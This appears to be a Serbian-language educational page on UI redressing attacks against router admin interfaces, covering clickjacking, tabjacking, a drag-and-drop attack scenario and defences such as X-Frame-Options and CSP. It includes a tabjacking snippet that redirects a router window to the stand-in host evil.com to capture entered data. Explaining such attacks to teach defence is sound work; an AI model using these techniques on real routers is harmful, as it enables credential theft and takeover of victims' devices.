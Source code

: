 ## UI Redressing

UI Redressing je tehnika napada za modifikovanje ponašanja i, opciono, izgleda napadnute web stranice. Cilj napadača je da dozvoli žrtvi da izvrši radnje koje je odredio napadač [1] . Ovaj dokument prikazuje dva različita napada za ispravljanje korisničkog interfejsa koji se mogu koristiti za iskorišćavanje web interfejsa rutera:

- Classic Clickjacking
- Tabjacking

**Classic Clickjacking**
Kod Clickjacking napada, napadač ubacuje svoju stranicu ili element unutar IFrame-a. IFrame je element koji učitava strukturu HTML dokumenta unutar web aplikacije [2] . Tim sadržajem, napadač namamljuje korisnike da kliknu na određen element.

**Tabjacking**
Korišćenjem objekta window.name moguće je postaviti i dobiti ime prozora, uključujući kartice pretraživača ili iskačuće prozore, tako da se može direktno adresirati preko hiperlinkova i formulara. Napadač može da ga koristi da manipuliše URL-om administrativnog interfejsa tako što će namamiti žrtvu da klikne na link zlonamjerne web stranice koju kontroliše napadač.

Tipičan scenario Tabjacking-a jeste da web stranica napadača sadrži “a” (link) element sa kodom

    <a target="router_interface" href="[//192.168.1.1]"> LINK </a>

Kada klikne na link element, otvara se stranica administrativnog interfejsa, gdje se potom mami žrtva da klikne na link maliciozne veb stranice. U tom linku se nalazi dio kod

    href="#"
    onclick="window.open('https://evil.com/','router_interface');
    return false;"

Tako povezan ruter interfejs i maliciozna stranica, omogućavaju krađu svih unesenih podataka. [1]

## Ranjivosti

Redressing korisničkog interfejsa je vrsta bezbjednosne ranjivosti na webu gdje napadač prekriva ili manipuliše elementima korisničkog interfejsa legitimnog web sajta da bi prevario korisnike da stupe u interakciju sa neželjenim sadržajem ili izvrše nenamjerne radnje.

## Opisan slučaj napada

Napadač mora da analizira da li postoje mogućnosti prepravljanja korisničkog interfejsa na ciljnom web interfejsu, jer želi da manipuliše udaljenim pristupom web stranice kako bi pristupio interfejsu administracije. Namera iza ove funkcionalnosti je da se može dozvoliti ljudima od poverenja da konfigurišu Internet ruter preko web pretraživača i stoga podržavaju vlasnika ili administratora rutera. Uspješan napad zahtjeva od žrtve da unese korisničko ime i dva puta lozinku u polja za unos teksta. Nakon popunjavanja polja, žrtva mora proslediti ulazne podatke klikom na dugme Pošalji. Ukratko, napadaču je potrebno da žrtva unese potrebne podatke i klikne na dugme Pošalji. Napadač može lako postići radnje žrtve koristeći tehnike prepravljanja korisničkog interfejsa zajedno sa društvenim inženjeringom.

Prvo, napadač mora da kreira web stranicu koja animira žrtvu da izvrši akcije prevlačenja i ispuštanja. Tačnije, napadač namami žrtvu da povuče napadačeve definisane elemente na napadačevu web stranicu. Takva web stranica može da se sastoji od teksta i HTML elemenata kao što su img i h1. Osim ovog scenarija napada, napadač takođe može pokušati da pronađe ranjivost ubrizgavanja koda na pouzdanoj i redovno posjećenoj web stranici.

![Botnet.png](./../Images/Cats.png)
<br>
Slika 1. Primjer stranica sa malicioznim elementima

Jedan od načina za napad na žrtvu prikazan je na slici 1. Postoje tri slike sa mačićima i tri kutije koje navode neka svojstva ovih slika. Drugo, korisnik će kliknuti na sliku mačića, prevući je i ispustiti izabrani element u jedan od tri okvira. Ove kutije su postavljene ispod nevidljivog iFrame-a koji učitava administrativni interfejs. U našem napadu, žrtva odlučuje kakav je efekat ovih radnji i klikne na dugme da dobije više informacija ili žrtva bira da vidi više mačića. Svaka slika ispušta vrednost foobar u tekstualno polje korišćenjem atributa draggable.

![Botnet.png](./../Images/UIRedressingCode.png)
<br> Slika 2. Kod za izvršetak napada

Na slici 2 je prikazan kod za izvršetak napada. Koristimo CSS kod da izvršimo uspješan napad prepravljanja korisničkog interfejsa pomoću API-ja za prevlačenje i ispuštanje i iFrames-a. Prvi red sadrži većinu CSS koda koji se odnosi na div i button elemente. Postavljamo poziciju, koristimo z-indeks kao svojstvo da preklopimo iFrame sa adresiranim elementima i definišemo vrijednosti u tekstualna polja a ne u div elemente. Druga linija pokazuje kako se može napraviti slika mačića. Koristimo obrađivač događaja ondragstart sa tipom tekt/plain i vrednošću foobar. Ovo omogućava napadaču da koristi ovu vrijednost kao korisničko ime i lozinku za navigaciju kroz interfejs administracije nakon uspješnog napada. Štaviše, definišemo atribut koji se može prevući tako da ne ispuštamo ime slike ili putanju slike u polje za tekst. Samo foobar definisan od strane napadača se ispušta. Četvrti red sadrži naš element dugmeta sa pozicijom iznad dugmeta administrativnog interfejsa. Poslednje, ali ne i najmanje važno, je iFrame koji učitava web stranicu da bi kreirao daljinski pristup koristeći CSS kod, da bi je postavio pored teksta i slika mačića.

Kombinujući različite funkcije pretraživača kao što je API za prevlačenje i rukovanje događajima, napadač dobija automatski pristup web interfejsu tako što samo otme korisnika sa tri akcije prevlačenja i ispuštanja, kao i jednim klikom na dugme. Dakle, imamo kritičnu ranjivost sa srednjim naporom da dobijemo potpuni pristup interfejsu administracije i stoga da promenimo DNS [3] podešavanja, da ponovo pokrenemo uređaj ili da se instalira druga manipulisana verzija firmvera.

## Posljedice

Posljedice ovog tipa napada jesu:

- Neovlašćene radnje u ime korisnika
- Phishing attacks
- Širenje malicioznog koda
- Krađa osjetljivih informacija

## Mitigacije

Neki od načina prevencije ovog napada jesu:

1. **Client-side defenses** mehanizam koji sprečava da se web lokacija učita u IFrame.
2. **Using the X-Frame-Options header** bolji pristup za sprečavanje napada klikova je da se zamoli pregledač da blokira svaki pokušaj učitavanja web lokacije unutar IFrame-a. To se može učiniti slanjem HTTP zaglavlja Ks-Frame-Options.
3. **Using CSP** Glavni pretraživači podržavaju zaglavlje Ks-Frame-Options. Međutim, nikada nije standardizovan, tako da možda postoje pretraživači koji ga ne podržavaju. Alternativni standardni pristup za sprečavanje napada klikova je korišćenje posebnih direktiva politike bezbednosti sadržaja (CSP).
4. **Using cookie's sameSite origin** Ako je web aplikacija podložna klikovima zbog kolačića sesije, može se zaštititi korišćenjem istog svojstva kolačića sameSite. U ovom slučaju, odbrana se ne zasniva na kršenju ponašanja IFrame-a, već na sprečavanju da sesija bude važeća kada je web lokacija unutar IFrame-a [5].

## Reference

[1] [Marcus Niemietz, Jorg Schwenk. Owning Your Home Network: Router Security Revisited](https://arxiv.org/pdf/1506.04112.pdf)

[2] [Luqmanul M. What Is an iFrame?](https://www.hostinger.com/tutorials/what-is-iframe/)

[3] [[Ben Lutkevich, John Burke. Domain name system (DNS)](https://www.techtarget.com/searchnetworking/definition/domain-name-system)

[4] [[Andrea Chiarelli. Clickjacking Attacks and How to Prevent Them](https://auth0.com/blog/preventing-clickjacking-attacks/#Prevent-Clickjacking-Attacks)
